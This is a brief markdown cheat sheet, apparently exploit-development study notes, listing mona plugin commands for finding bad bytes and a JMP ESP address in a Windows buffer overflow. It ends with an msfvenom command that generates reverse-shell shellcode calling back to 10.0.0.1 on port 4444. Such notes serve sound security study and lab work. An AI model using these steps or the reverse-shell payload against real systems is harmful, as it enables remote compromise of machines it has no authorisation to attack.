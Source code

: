 # Mona
# Setup working directory
```
!mona config -set workingfolder c:\mona\%p
```

# Finding bad bytes
## Generating bytearray without bad bytes
Generated bytearray is save as `bytearray.bin` in working directory
```
!mona bytearray -b "\x00"
```
## Comparing injected bytearray with generated bytearray
```
!mona compare -f C:\mona\appname\bytearray.bin -a rsp
```

# Finding jump spot
```
!mona jmp -r esp -cpb "\x00\..."
```

# Generating payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00..." -f c
```